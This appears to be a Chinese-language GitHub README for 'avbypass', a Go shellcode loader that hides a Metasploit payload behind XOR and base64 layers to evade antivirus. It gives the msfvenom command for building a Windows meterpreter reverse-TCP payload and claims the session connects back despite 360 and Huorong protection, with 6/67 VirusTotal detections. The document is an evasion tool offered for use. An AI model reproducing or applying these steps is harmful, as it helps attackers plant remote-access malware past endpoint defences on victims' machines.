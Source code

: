 ## avbypass

#### 使用

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxx -f raw -o payload.bin
```

使用程序生成加密的shellcode后，填入指定位置，编译执行即可。

通过xor和base64多层加密shellcode实现的go加载器bypassav，

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131838.png)

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131902.png)

实测在开启360和火绒的情况下msf正常上线

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131740.png)

virustotal结果 6/67，后续有时间会慢慢修改

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010155756.png)# avbypass
# avbypass
"# avbypass" 
